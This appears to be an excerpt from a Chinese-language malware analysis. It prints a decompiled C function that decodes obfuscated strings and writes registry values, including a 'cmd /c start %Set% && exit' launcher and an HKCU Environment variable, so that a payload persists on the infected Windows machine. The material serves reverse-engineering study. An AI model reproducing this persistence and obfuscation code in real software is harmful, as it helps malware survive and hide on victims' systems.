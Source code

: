 ```c

  // 获取注册表值名并存储在v0中
  v0 = sub_4026E0("Efgbvmu2", 1);                                                         //Default1
  // 获取注册表值名并存储在v1中
  v1 = sub_4026E0("TfU", 1);                                                             //Set
  // 存储原始的注册表值名以备后用
  v6 = v1;

  // 如果注册表中没有指定的注册表值，则执行以下操作
  if (RegQueryValueExA(0, v0, 0, 0, 0, 0))
  {
    // 构建字符串并存储在v2中
    v2 = sub_4026E0("dne", 1);
    strcat(v2, sub_4026E0("!0d!tubsu!&TfU&!", 1));                                        // /c start %SeT%
    strcat(v2, sub_4026E0("''!", 1));                                                     //&&
    strcat(v2, "exit");
    // 打开注册表键
    RegOpenKeyExA(HKEY_CURRENT_USER, lpSubKey, 0, 0xF003Fu, &phkResult);
    // 设置注册表值
    RegSetValueExA(phkResult, v0, 0, 1u, (const BYTE *)v2, strlen(v2));
    // 关闭注册表键
    RegCloseKey(phkResult);
    // 恢复注册表值名为原始值
    v1 = v6;
  }

  // 如果注册表中没有指定的注册表值，则执行以下操作
  if (RegQueryValueExA(0, v1, 0, 0, 0, 0))
  {
    // 打开注册表键
    RegOpenKeyExA(HKEY_CURRENT_USER, "Environment", 0, 0xF003Fu, &phkResult);
    // 设置注册表值
    RegSetValueExA(phkResult, v1, 0, 1u, Path, strlen((const char *)Path));
    // 关闭注册表键
    RegCloseKey(phkResult);
  }
  return 0; // 返回值
}
```

操作 Windows 注册表，为了保活，设置了一些注册表键值。
